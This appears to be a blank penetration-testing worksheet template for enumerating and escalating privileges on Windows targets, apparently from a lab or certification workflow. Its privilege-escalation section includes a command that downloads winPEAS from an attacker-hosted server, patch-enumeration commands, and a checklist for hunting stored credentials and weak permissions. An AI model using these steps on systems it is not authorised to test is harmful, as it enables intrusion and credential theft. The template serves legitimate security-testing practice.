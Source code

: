 # Worksheet
Use the outputs from the doubletap scan here, run any necessary secondary scans included in the templates
in order to further enumerate the target. Based off findings make an audit list and proceed to Google.

## General Information
```
Hostname :
IP Address:
OS :
Version :
```
------------------------------------------------------------------------
Initial Access
------------------------------------------------------------------------
## Services (eg. SSH, SQL, SMTP, UDP(SNMP)...)
```




```

## NFS/SMB Drives
```


```

## Web Applications/Technologies (eg PHP, Apache, CMS...)
```



```

## Login Pages
```

```

## Found Users/Services/Credentials
```

```

## Audit Order
List based of perceived probability of success. Note steps taken.
```
1)
2)
3)
4)
5)
6)
```

## Notes
```


```

## Exploit Steps
```


```

------------------------------------------------------------------------
Privesc
------------------------------------------------------------------------
Follow the general order below for least to most intensive

Windows Path:
set PATH=%PATH%;C:\xampp\php;C:\Python27\Lib;C:\Python27\DLLs;C:\Python27\Lib\lib-tk

cd '/opt/privesc_scripts/winPEAS/winPEASexe/winPEAS/bin/Obfuscated Releases' && http 8888
wget <INSERTIPADDRESS>:8888/winPEASany.exe
  
## Kernel Vulnerablities
Get specific OS/patch versions and list possible exploits here:
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```


```

## Users/Services/Credentials/Group Memebership
Try for reused passwords across accounts:
net localgroup administrators
runas /user:<UserName> program
```
```

## Scan Outputs
Use seatbelt.exe, or other tools to generate report
```
1) Autologin and stored keys
2) Config files, or files containing creds (sysprep, unattended, sysvol groups.xml)
3) User history
4) Drive Information (look for network drives and other mounted disks)
5) Scheduled tasks (icacls and accesschk.exe, find binaries that you can modify that are started as a service)
6) Internal Services (check for versions and exploits)
7) Weak folder permissions (dll hijacking)
8) Drivers

```

## Notes
```


```

## Exploit Steps
```


```
